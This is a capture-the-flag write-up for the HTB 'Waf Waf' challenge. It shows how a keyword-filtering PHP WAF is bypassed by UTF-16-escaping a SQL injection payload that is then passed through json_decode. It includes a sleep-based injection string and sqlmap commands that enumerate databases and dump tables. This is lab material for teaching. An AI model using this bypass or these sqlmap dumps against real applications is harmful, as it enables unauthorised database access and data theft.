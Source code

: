 # bugbase_task2
# Waf Waf Challenge HTB

<img src="Picture1.png">

When we open the page we get:

<img src="Picture2.png">

We can see what looks like the ```index.php``` of the page.
In the script you can see that a SQL database is queried and the input of POST requests is filtered using a basic WAF (Web Application firewall), implemented through the ```waf()``` function of the ```db``` class.

<img src="Picture3.png">

The script ends immediately when at least one of the following characters or strings is found
in the input string:

```
[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having
```

The check is not case sensitive.
So this looks like vulnerable to a SQL injection.

# SQL Injection

Checking what happens when we make a request with one of the words that are filtered by the waf:

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}
```

A subsequent json_decode is performed on the input string, for what the script expects to receive JSON objects.
Because decoding the string happens after the function checks waf () we can take advantage of the fact that in JSON it is possible to encode characters in UTF-16, which when decoding the JSON, will return to the format original.
Let's do a test:

Para ello haremos una peticion POST con curl la cual capturaremos con Burp Suite (```http://127.0.0.1:8080 ``` es la dirección y puerto del proxy de burp suite)

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080  
```
<img src="Picture4.png">

Once the request is captured, we will send it to the repeater

Where we send it and we appreciate the 149 bytes of the response

<img src="Picture5.png">

Later we will test if we can evade the waf with a sqli payload, we will use the following payload ```' or sleep(10) #``` which we will encode it to UTF-16 since as we saw previously we will proceed to a ```json_decode ()```.

I use this [unicode converter](https://www.branah.com/unicode-converter)

<img src="Picture6.png">

Now we load the payload in the request and send it:

<img src="Picture7.png">

Where we can see that we get a 200 and that there are still 149 response bytes.

Now we will copy the request to a file putting ```*``` where we want the payload to be loaded.

<img src="Picture5.png">

# Blind SQL Injection

To obtain information in this case we will use a Blind SQL Injection and we will execute the following ```sqlmap``` command we should get the databases available:

```bash
─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql
```

<img src="Picture6.png">

We have five databases db_m8452, info_schema, mysql, performance_schema, sys.
Let's extract the list of tables from the database. db_m8452:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql
```


<img src="Picture7.png">

The db_m8452 database has two tables, ```definitely_not_a_flag``` and ```notes```. Now let's dump the contents of the table ```definitely_not_a_flag```:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql
```

many payloads later .. we got the flag.

<img src="Picture10.png">

Byee
